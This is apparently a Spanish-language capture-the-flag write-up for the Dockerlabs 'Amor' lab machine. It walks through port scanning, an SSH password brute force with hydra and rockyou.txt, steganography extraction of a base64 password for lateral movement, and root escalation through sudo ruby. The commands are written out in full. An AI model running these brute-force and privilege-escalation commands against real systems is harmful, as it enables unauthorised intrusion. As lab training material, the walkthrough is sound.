 # Writeup de la Máquina Amor de Dockerlabs

Lo primero que hago es realizar un escaneo de todos los puertos que tenga abiertos la máquina con la herramienta nmap. Una vez realizado el escaneo recojo los puertos abiertos con la utilidad extractPorts del fichero donde se ha guardado el escaneo de nmap. 

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```
```bash
extractPorts allPorts
```
![Primer nmap](_images/Screenshot_1.png)

Teniendo los puertos copiados procedo a ejecutar un escaneo más profundo solo para los puertos 22 y 80 con nmap. 

```bash
sudo nmap -p22,80 -sCV 172.17.0.2 -oN targeted
```

![Segundo NMAP](_images/Screenshot_2.png)

Una vez terminado el escaneo veo que la version del servicio ssh esta al día, así que procedo a investigar el puerto 80 con la herramienta whatweb para listar las tecnologias que se estan utilizando.

```bash
whatweb http://172.17.0.2
```
![Whatweb](_images/Screenshot_3.png)

Una vez listadas las tecnologias y viendo que no resalta ninguna procedo a realizar un reconocimiento de la web.

![navegador](_images/Screenshot_4.png)

Mirando la página descubro dos usuarios, Juan y Carlota en un post sobre un despedido.

![usuarios](_images/Screenshot_6.png)

Teniendo dos posibles usuarios y sabiendo que el puerto 22 esta abierto decido probar a entrar por ssh por fuerza bruta con el diccionario rockyou.txt .

```bash
hydra -l carlota -P /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt ssh://172.17.0.2 -t 64
```

![hydra](_images/Screenshot_7.png)


Con el usuario carlota consigo tener un resultado, con la contraseña babygirl, asi que procedo a conectarme por ssh.

```bash
ssh carlota@172.17.0.2
```

![ssh](_images/Screenshot_8.png)

Una vez dentro miro formas de escalar priviegios, primero probando con permisos de sudoers y luego con binarios suid. De estos ninguno fue efectivo.

```bash
sudo -l
```

```bash
find / -perm -4000 2>/dev/null
```

![Privesc](_images/Screenshot_9.png)

Viendo que no encuentro la forma de escalar priviegios miro que usuarios hay en el sistema mirando el /etc/passwd , encuentro que hay otro usuario llamado oscar.

```bash
cat /etc/passwd
```

![passwd](_images/Screenshot_10.png)

Viendo que no encuentro nada voy al directorio personal de carlota, revisando la carpeta encuentro una imagen en la ruta /home/carlota/Desktop/fotos/vacaciones , dentro de esta carpeta me creo un servidor http con python por el puerto 443 para ver la imagen y descargármela.

```bash
python3 -m http.server 443
```

![Imagen](_images/Screenshot_11.png)

Viendo que la imagen en cuestión no me aporta nada, así que decido mirar si tiene algún archivo oculto con la herramienta steghide.

```bash
steghide extract -sf imagen.jpg
```

![Steghide](_images/Screenshot_12.png)

Una vez utilizando la herramienta veo que ha sacado un archivo secret.txt , miro el archivo y parece un código de base64 así que procedo a decodearlo.


```bash
cat secret.txt
```

```bash
echo -n "ZXNxYWNhc2FkZXBpbnlwb24=" | base64 -d
```

![base64](_images/Screenshot_13.png)

Una vez decodeado pruebo a utilizar el texto que ha sacado como contraseña para hacer un movimiento lateral hacia el usuario oscar.

```bash
su oscar
```

![movimiento lateral](_images/Screenshot_14.png)

Una vez como el usuario oscar miro a ver su carpeta personal y encuentro un mensaje en un archivo IMPORTANTE.txt, en este recuerda al usuario root de mirar el documento en su escritorio. Una vez visto esto procedo a mirar maneras para escalar privilegios. Lo primero que miro es los permisos de sudoers y en este veo que puedo ejecutar ruby como root.

```bash
sudo -l
```

![sudo](_images/Screenshot_15.png)

Para escalar privilegios ejecuto el siguiente comando:

```bash
sudo ruby -e 'exec "/bin/sh"'
```

![root](_images/Screenshot_16.png)

Una vez escalado privilegios miro el documento.

![root2](_images/Screenshot_17.png)